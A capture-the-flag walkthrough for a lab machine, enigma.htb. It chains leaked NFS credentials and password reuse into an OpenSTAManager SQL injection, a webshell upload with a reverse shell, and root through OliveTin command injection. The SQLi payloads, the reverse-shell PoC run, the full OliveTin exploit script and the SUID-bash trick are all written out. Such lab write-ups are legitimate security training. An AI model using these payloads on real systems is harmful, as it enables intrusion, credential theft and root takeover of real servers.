

Exploitation Summary
The attack began with an nmap scan revealing an unusually large number of open ports for a Linux
box, including NFS, IMAP/POP3, and an nginx web server
on port 80. The web server redirected to enigma.htb, presenting a corporate landing
page. A virtual host discovery uncovered mail001.enigma.htb, which hosted a
Roundcube webmail instance.
An exposed NFS share /srv/nfs/onboarding contained an onboarding PDF with default
credentials for a new employee (kevin). Logging into Roundcube revealed a welcome
email from Sarah. Testing password reuse, Sarah's account was accessible with the same default
password, and her inbox contained credentials for an OpenSTAManager instance running on the
support_001.enigma.htb virtual host.
OpenSTAManager 2.9.8 is vulnerable to CVE-2026-38751, an authenticated RCE via arbitrary file
upload through the module installation feature. A public PoC was used to upload a PHP webshell
as an OpenSTAManager module, granting a reverse shell as www-data. A prior error-based
SQL injection (GHSA-4xwv-49c8-fvhq) was also leveraged to extract user hashes; the hash for
haris was cracked to bestfriends, enabling lateral movement to that
user and yielding the user flag.
For privilege escalation, a locally-bound service on port 1337 was identified as OliveTin
3000.10.0, vulnerable to CVE-2026-27626, a command injection flaw in the password
argument handling. Via local port forwarding through SSH, a crafted request to the
StartAction API endpoint injected shell metacharacters through the
db_pass argument to execute chmod u+s /bin/bash. With the SUID bit
set on bash, running bash -p yielded a root shell and the root flag.
Technologies/Exploits: NFS enumeration, credential leakage via PDF, password reuse, OpenSTAManager error-based SQLi (GHSA-4xwv-49c8-fvhq), OpenSTAManager file upload RCE (CVE-2026-38751), OliveTin command injection (CVE-2026-27626), SSH local port forwarding, SUID bash privesc.
Initial Reconnaissance
Starting with an nmap scan to enumerate open ports and services:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://enigma.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100003 3,4 2049/tcp nfs
| 100005 1,2,3 38275/tcp mountd
| 100021 1,3,4 33409/tcp nlockmgr
|_ 100227 3 2049/tcp nfs_acl
143/tcp open imap Dovecot imapd (Ubuntu)
993/tcp open ssl/imap Dovecot imapd (Ubuntu)
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 3 (RPC #100227)
33409/tcp open nlockmgr 1-4 (RPC #100021)
38275/tcp open mountd 1-3 (RPC #100005)
42191/tcp open status 1 (RPC #100024)
50043/tcp open mountd 1-3 (RPC #100005)
60005/tcp open mountd 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThis is quite a lot of open ports for a Linux box. Notably, NFS is exposed, which
might expose an interesting mount, plus we have full email service ports (POP3, IMAP, and their
TLS variants).
I add enigma.htb to my /etc/hosts file. Browsing to port 80 shows a
corporate landing page for an IT services company.
Virtual Host Enumeration
Fuzzing for virtual hosts I discover:
mail001.enigma.htb Status: 200 [Size: 5327]This host contains a Roundcube webmail instance. Without credentials I can't log in yet, so I move on with enumeration.
NFS Enumeration
Checking NFS exports:
showmount -e enigma.htbExport list for enigma.htb:
/srv/nfs/onboarding *Mounting the share:
sudo mount -t nfs enigma.htb:/srv/nfs/onboarding /tmp/nfs
ls -lah /tmp/nfstotal 8.0K
drwxr-xr-x 2 root root 4.0K Feb 19 19:54 .
drwxrwxrwt 17 root root 400 Jun 28 14:56 ..
-rw-r--r-- 1 root root 1.8K Feb 19 19:53 New_Employee_Access.pdfI copy the PDF locally, unmount the share, and open it. It contains default onboarding credentials and a Roundcube username for a new employee (Kevin):

Roundcube Access as Kevin
Logging in as kevin with the default password, I find a welcome email:
"Hi Kevin,
Welcome to the team! We're thrilled to have you on board at Enigma Corp. [...] I'm Sarah from the Accounts department. I'll be your point of contact for any finance-related queries during your onboarding period.
We're still finalizing a few of your onboarding details — your system access, equipment setup, and department introductions are all being arranged by the IT team. You should be receiving your access credentials shortly via the company shared drive.
Best regards, Sarah — Accounts Department — sarah@enigma.htb"
Roundcube's version is 1.6.16, quite recent, and while it has some extensions enabled I don't find any particularly interesting vulnerability for this version.
As a side note, it's also possible to interact directly with the IMAPS port from the CLI, which is useful for extracting mail without needing the webmail:
openssl s_client -connect enigma.htb:993
a login kevin Enigma2024!
a OK
a select INBOX
a fetch 1:* (FLAGS BODY[HEADER])
a fetch 1 body[]Password Reuse - Sarah's Mailbox
After trying a few things unsuccessfully, I test password reuse by attempting to log into Sarah's
account with the same default password Enigma2024!. Surprisingly, it works and I find
this email from it@enigma.htb:
"Hi Sarah,
Apologies for the delay. I have provisioned your access. Please find the details below:
URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78sNote: I will create a dedicated account for you shortly, for now you can use the admin account to get started.
Regards, IT Support — Enigma Corp"
OpenSTAManager Enumeration
I add the new virtual host support_001.enigma.htb to /etc/hosts, browse
to it, and find an instance of OpenSTAManager version
2.9.8.
Searching for known vulnerabilities I find an interesting error-based SQL injection with a public PoC: GHSA-4xwv-49c8-fvhq.
Error-Based SQL Injection
First, I authenticate to grab a session cookie:
curl -c cookies.txt -X POST 'http://support_001.enigma.htb/index.php?op=login' \
-d 'username=admin&password=Ne3s4rtars78s'Then I test the injection using EXTRACTVALUE to trigger a XPATH error containing
query output:
curl -b cookies.txt \
-d "op=send_reminder&id_records[]=-999) AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(USER(),' | ',VERSION()))))%23" \
"http://support_001.enigma.htb/actions.php?id_module=18"Messaggio: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~brollin@localhost | 8.0.46-0ubu'
File: /var/www/html/openstamanager/src/Database.php
Linea: 289Now enumerating users from the zz_users table:
curl -b cookies.txt \
-d "op=send_reminder&id_records[]=-999) AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(username,':',email) FROM zz_users LIMIT 1)))%23" \
"http://support_001.enigma.htb/actions.php?id_module=18"Messaggio: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~admin:admin@enigma.htb'Using OFFSET 1 to grab the next user:
curl -b cookies.txt \
-d "op=send_reminder&id_records[]=-999) AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(username,':',email) FROM zz_users LIMIT 1 OFFSET 1)))%23" \
"http://support_001.enigma.htb/actions.php?id_module=18"Messaggio: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~haris:haris@enigma.htb'Then extracting the password hashes 31 characters at a time using SUBSTRING
(since XPATH errors truncate long outputs):
curl -b cookies.txt \
-d "op=send_reminder&id_records[]=-999) AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT SUBSTRING(password,1,31) FROM zz_users LIMIT 1)))%23" \
"http://support_001.enigma.htb/actions.php?id_module=18"Repeating with different offsets I assemble the full bcrypt hashes:
admin:$2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu
haris:$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eCThe haris hash cracks with a wordlist:
$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriendsThese credentials let me log into Roundcube and OpenSTAManager as haris, but there's nothing particularly interesting in either account, and SSH only accepts publickey authentication so I can't just SSH in.
Initial Access - OpenSTAManager RCE (CVE-2026-38751)
Continuing the vulnerability hunt, I find this advisory: CVE-2026-38751.
OpenSTAManager is vulnerable to RCE via arbitrary file upload. The module installation feature doesn't validate the contents of uploaded module ZIPs, and since PHP files inside get placed in a web-accessible directory, we can drop a PHP webshell — essentially the same idea as uploading a malicious WordPress plugin.
I use a public PoC script that automates authentication, module upload, and triggers a reverse shell:
python3 cve.py -u http://support_001.enigma.htb -U admin -P Ne3s4rtars78s --lhost 10.10.14.169 --lport 443[ CVE-2026-38751 — OpenSTAManager RCE ]
[*] Target: http://support_001.enigma.htb
[*] 1/4 Authenticating...
[+] Authenticated as: admin
[*] 2/4 Enabling module updates...
[+] Module updates enabled
[*] 3/4 Uploading malicious module...
[*] Malicious ZIP built in memory
[*] Upload → HTTP 500
[*] 4/4 Verifying webshell...
[+] Webshell active: http://support_001.enigma.htb/modules/shell/shell.php
[*] Sending payload to 10.10.14.169:443I gain a reverse shell as www-data. From here I can pivot laterally: the user
haris exists on the system, and the cracked password bestfriends works
for su haris. This gives me the user flag.
To make life easier and set up persistence, I drop my SSH public key into
/home/haris/.ssh/authorized_keys.
Local Enumeration - OliveTin
Poking around the system I notice this listening port:
tcp LISTEN 0 4096 127.0.0.1:1337 0.0.0.0:*A quick curl from the box doesn't reveal much, so I use SSH local port forwarding
to investigate it comfortably from my attacking machine:
ssh haris@enigma.htb -i ~/.ssh/kerssh -L 1337:localhost:1337The service turns out to be OliveTin, an open source tool that provides safe and simple web-based access to predefined shell commands. The version running is 3000.10.0. Without valid login credentials there doesn't appear to be anything I can do from the UI directly.
Privilege Escalation - OliveTin Command Injection (CVE-2026-27626)
Searching for known vulnerabilities, I find a critical recent CVE affecting this version: CVE-2026-27626.
"OliveTin gives access to predefined shell commands from a web interface. In versions up to and including 3000.10.0, OliveTin's shell mode safety check (
checkShellArgumentSafety) blocks several dangerous argument types but notpassword. A user supplying apassword-typed argument can inject shell metacharacters that execute arbitrary OS commands."
This means any request that accepts a password-typed argument might be vulnerable to command injection. Probing OliveTin's API, I find that the endpoint:
/api/olivetin.api.v1.OliveTinApiService/StartActionaccepts a JSON body with arguments, where db_pass looks injectable:
payload = {
"bindingId": "backup_database",
"arguments": [
{"name": "db_user", "value": "backup_svc"},
{"name": "db_pass", "value": f"';{cmd};'"},
{"name": "db_name", "value": "production"}
],
"uniqueTrackingId": tracking_id
}The output of the executed command can be retrieved from another endpoint:
/api/olivetin.api.v1.OliveTinApiService/ExecutionStatusI wrap this into a small exploit script:
#!/usr/bin/env python3
import argparse
import json
import sys
import uuid
import time
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def start_action(base_url, tracking_id, cmd):
url = f"{base_url}/api/olivetin.api.v1.OliveTinApiService/StartAction"
payload = {
"bindingId": "backup_database",
"arguments": [
{"name": "db_user", "value": "backup_svc"},
{"name": "db_pass", "value": f"';{cmd};'"},
{"name": "db_name", "value": "production"}
],
"uniqueTrackingId": tracking_id
}
r = requests.post(url, json=payload, verify=False, timeout=10)
r.raise_for_status()
return r.json()["executionTrackingId"]
def execution_status(base_url, tracking_id):
url = f"{base_url}/api/olivetin.api.v1.OliveTinApiService/ExecutionStatus"
payload = {"executionTrackingId": tracking_id}
r = requests.post(url, json=payload, verify=False, timeout=10)
r.raise_for_status()
return r.json()
def print_output(resp):
try:
output = resp["logEntry"]["output"]
except KeyError:
print(json.dumps(resp, indent=4))
return
print("=" * 70)
print("Command Output")
print("=" * 70)
print(output.rstrip())
print("=" * 70)
def main():
parser = argparse.ArgumentParser(description="OliveTin CVE")
parser.add_argument("-u", "--url", required=True, help="Target host/IP")
parser.add_argument("-p", "--port", default=1337, type=int, help="Target port (default: 1337)")
parser.add_argument("-x", "--cmd", default="id", help="Command to execute (default: id)")
args = parser.parse_args()
host = args.url.rstrip("/")
if not host.startswith("http://") and not host.startswith("https://"):
host = "http://" + host
base_url = f"{host}:{args.port}"
tracking_id = str(uuid.uuid4())
try:
execution_id = start_action(base_url, tracking_id, args.cmd)
print(f"[+] Execution ID: {execution_id}")
time.sleep(2)
response = execution_status(base_url, execution_id)
print_output(response)
except requests.exceptions.RequestException as e:
print(f"[-] Request failed: {e}")
sys.exit(1)
except Exception as e:
print(f"[-] Error: {e}")
sys.exit(1)
if __name__ == "__main__":
main()Since OliveTin is running as root, any command injected through this vulnerability will execute
with root privileges. I set the SUID bit on /bin/bash:
python3 olivepoc.py -u http://localhost -p 1337 -x "chmod u+s /bin/bash"[+] Execution ID: 3567fa3d-d024-4c0a-ae17-108fffde1a68
======================================================================
Command Output
======================================================================
exit status 2
======================================================================Despite the "exit status 2" from the wrapping command, the injected chmod did run.
Verifying:
haris@enigma:~/.ssh$ ls -lah /bin/bash-rwsr-xr-x 1 root root 1.4M Mar 31 2024 /bin/bashBash now has the SUID bit set. Running bash -p preserves the effective UID as root,
giving me a root shell and the root flag:
bash -p
id
# uid=1001(haris) gid=1001(haris) euid=0(root) groups=1001(haris)